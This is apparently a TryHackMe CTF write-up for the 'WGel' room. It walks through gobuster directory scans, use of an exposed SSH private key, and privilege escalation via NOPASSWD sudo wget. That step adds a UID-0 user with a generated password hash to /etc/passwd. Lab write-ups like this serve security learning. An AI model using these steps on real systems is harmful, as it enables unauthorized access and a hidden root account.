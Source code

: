 # WGel

## Getting access

On the main page, in the comments we find a possible username: *Jessie*

Running a gobuster scan we find the page /sitemap
Running another one on this subdir we find /.ssh where we find a private key, presumably Jessie's

```bash
$ gobuster dir -u http://10.10.237.120/ -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt
$ gobuster dir -u http://10.10.237.120/sitemap/ -w /usr/share/wordlists/dirb/common.txt | tee gob_scan3
```

```bash
kali@kali:~/Desktop/CTF-Write-ups/TryHackMe/Wget_CTF_IN_PROGRESS$ touch rsa_private
kali@kali:~/Desktop/CTF-Write-ups/TryHackMe/Wget_CTF_IN_PROGRESS$ chmod 600 rsa_private 
kali@kali:~/Desktop/CTF-Write-ups/TryHackMe/Wget_CTF_IN_PROGRESS$ vim rsa_private
kali@kali:~/Desktop/CTF-Write-ups/TryHackMe/Wget_CTF_IN_PROGRESS$ ssh -i rsa_private jessie@10.10.237.120
```

Jessie with uppercase first letter did not work as a username, but *jessie* did.


## PrivEsc

Running *sudo -l*, we find the wget has 

```bash
jessie@CorpOne:~$ sudo -l
Matching Defaults entries for jessie on CorpOne:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User jessie may run the following commands on CorpOne:
    (ALL : ALL) ALL
    (root) NOPASSWD: /usr/bin/wget
```

We can use this to edit /etc/passwd

We could append a new user with UID 0 and a password of our choice
Generate the password:
```bash
kali@kali:~/Desktop/CTF-Write-ups/TryHackMe/Wget_CTF_IN_PROGRESS$ openssl passwd -1 -salt ceva parola12345
$1$ceva$gx3eJeje67jXAHOlUosqd1
```
Append this entry to /etc/passwd

```bash
ruski:$1$ceva$gx3eJeje67jXAHOlUosqd1:0:0:root/root:/bin/bash
```

Then su into the created user.